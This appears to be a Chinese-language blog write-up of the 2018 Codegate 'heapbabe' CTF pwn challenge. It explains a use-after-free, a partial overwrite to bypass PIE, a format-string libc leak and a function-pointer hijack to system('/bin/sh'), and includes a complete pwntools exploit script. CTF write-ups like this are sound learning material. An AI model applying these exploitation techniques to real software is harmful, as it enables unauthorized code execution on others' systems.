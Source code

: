 ```yaml
---
layout: post
title: "2018 codegate heapbabe"
description: "uafpwn"
categories: [2018/05]
tags: [ctf,pwn]
redirect_from:
  - /2018/05/19/
---
```


* heapbabe

> IDA反编译看一下，发现在delete函数中判断该buffer是否存在是判断table中该buffer的地址是否存在，而删除过程中并没有把该地址置0，所以有uaf漏洞，并且会调用存放在堆中的函数地址，那么只要修改该地址就可以劫持rip

&emsp;&emsp;&emsp;![2017-nullcon-level1](https://raw.githubusercontent.com/lm0963/lm0963.github.io/master/assets/images/screenshots/pwn/2018-codegate-heapbabe-1.png)

利用：

> 1.分配两个足够大的buffer，然后释放掉，这时候table里面会留有两个堆地址（堆块0，堆块1）  
> 2.分配一个足够大的buffer，覆盖堆块1里面的函数地址的低字节为\xaa，之所以要足够大是为了使快表中的空闲地址与其他地址合并（堆块2）  
> 3.delete堆块1，获得函数地址，绕过pie  
> 4.delete堆块2，重复第二步，覆盖地址为printf的地址，通过%12$lx泄露出libc的地址  
> 5.delete堆块2，重复第二步，覆盖地址为system的地址，并且前面存放/bin/sh;  
> 6.最后delete堆块1，获得shell  

```
from pwn import *
io=process('heapbabe')
#gdb.attach(io)
#context.log_level='debug'

def alloc(size,data):
    io.sendlineafter('>>','A')
    io.sendlineafter('size',str(size))
    io.sendafter('contents',data)

def free(idx):
    io.sendlineafter('>>','F')
    io.sendlineafter('id',str(idx))
    io.sendlineafter('DELETE','DELETE')

alloc(0x400,'0'*0x400)
alloc(0x400,'1'*0x400)
#alloc(0x90,'2'*0x90)
free(1)
free(0)
payload='\xaa\0'.rjust(0x42a,'0')
alloc(len(payload),payload)
free(1)
io.recvuntil('\xaa')
addr=u64(('\xaa'+io.recvline()[:-1]).ljust(8,'\0'))-0xcaa
free(0)
payload='0'.ljust(0x420-3,'0')+'0x%12$lxend'+(p64(addr+0xd85)+'\0')#.rjust(0x431,'0')
alloc(len(payload),payload)
free(1)
io.recvuntil('0x')
libc=int(io.recvuntil('end')[:-3],16)-0x3C3483
system=libc+0x46590
io.sendline('A')
io.sendline('A')
free(0)
payload='0'.ljust(0x428-0x18,'0')+'/bin/sh;'+'a'*0x10+(p64(system)+'\0')
alloc(len(payload),payload)
free(1)
print hex(libc)
print hex(system)
print hex(addr)
io.interactive()
```